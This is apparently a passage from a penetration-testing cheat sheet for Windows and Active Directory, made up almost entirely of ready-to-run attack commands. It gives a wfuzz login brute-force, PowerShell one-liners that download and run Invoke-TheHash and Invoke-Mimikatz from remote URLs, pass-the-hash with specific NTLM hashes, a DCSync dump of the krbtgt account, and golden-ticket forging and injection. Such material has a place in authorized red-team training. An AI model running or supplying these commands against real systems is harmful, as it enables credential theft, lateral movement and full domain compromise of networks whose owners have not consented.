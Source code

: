 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
  <pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1')
 
 Invoke-WMIExec -Target SVHOST2  -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell whoami | out-file \\SVHOST2\C$\windows\bitch.txt"
</pre>

  <b> Invoke Mimikatz Remotely </b>
  
  <pre>Invoke-WMIExec -Target SVHOST2  -Username Administrator
-Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell -Enc SQBFA...AoA"</pre>

![image](https://user-images.githubusercontent.com/7115563/34455757-1f6aed1c-ed86-11e7-9415-595fa5e8d6e7.png)
  
  <b> Pass The Hash with Mimikatz </b>
  
  <pre> Invoke-Mimikatz -Command '"sekurlsa::pth /user:adm_maint /ntlm:cbe55f143fcb6d4687583af520123b89 /domain:lazuli"'</pre>
  
  
  <a name="krb"></a><h3> Kerberos </h3>
  
  
  <b> Generate Golden Ticket (Domain Admin Required) </b>
  
  <pre>Invoke-Mimikatz -Command '"lsadump::dcsync /domain:LAZULI.CORP /user:krbtgt"'</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455725-7230ee30-ed85-11e7-9333-16372355ce60.png)
  
  ![image](https://user-images.githubusercontent.com/7115563/34455734-89934d5c-ed85-11e7-960e-9659e099c9df.png)
  
  <pre>Invoke-Mimikatz  -Command '"kerberos::golden /user:adon /domain:LAZULI.CORP /krbtgt:ca1c2aeda9160094be9971bdc21c50aa /sid:S-1-5-21-1238634245-2147606590-2801756923 /id:500 /ticket:admin.kirbi /ptt"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455745-9edd0360-ed85-11e7-84f0-6d62e621613b.png)
  
  <pre>Invoke-Mimikatz  -Command '"kerberos::ptt admin.kirbi"'</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455747-b285372a-ed85-11e7-9374-c481108db77e.png)
  
  ![image](https://user-images.githubusercontent.com/7115563/34455748-bb0512c6-ed85-11e7-8d40-b6516cf8b0f3.png)
  
 <a name="miscwin"></a><h3> Miscellaneous </h3>
  
 <b> Invoke Mimikatz </b>
  
  <pre>IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz</pre>
  
<b> Mimikatz C# </b>

<pre>C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /unsafe katz.cs</pre>

https://gist.github.com/caseysmithrc/87f6572547f633f13a8482a0c91fb7b7
  
```
